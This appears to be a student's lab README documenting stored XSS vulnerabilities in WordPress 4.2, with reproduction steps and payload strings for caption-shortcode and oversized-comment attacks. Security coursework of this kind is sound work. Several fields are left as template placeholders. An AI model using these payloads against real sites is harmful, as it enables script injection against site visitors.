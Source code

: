 # Project 7 - WordPress Pentesting

Time spent: 10 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version:  4.2.3
  - [x] GIF Walkthrough:
  <img src="AuthenticatedXSS.gif" width="800">
  
  - [x] Steps to recreate: 
  1. Write a Javascript like this: <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS')  ">link</a>
  2. Create a new post and put it inside of it
  3. Publish and mouseover the link
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&old=33316%40branches%2F4.2&new=33316%40branches%2F4.2&sfp_email=&sfph_mail=p)

2. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
  - [x] GIF Walkthrough: 
  <img src="AuthenticatedShortcodeTagXSS.gif" width="800">
  - [x] Steps to recreate: 
   1. Write TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a> in a post
   2. Publish post and mouseover "Click me"
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

3. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: 
  1. Post a comment with the javascript <a title='x onmouseover=alert(unescape(/hello%20world/.source))
style=position:absolute;left:0;top:0;width:5000px;height:5000px
 AAAAAAAAAAAA [64 kb] ...'></a>
 2. Replace the AAAAAA with 64 kb of text
 3. Mouseover the comment
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
1. [Authenticated Stored Cross-Site Scripting (XSS)](https://wpvulndb.com/vulnerabilities/8111)
2. [Authenticated Shortcode Tags Cross-Site Scripting (XSS)](https://wpvulndb.com/vulnerabilities/8186)

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
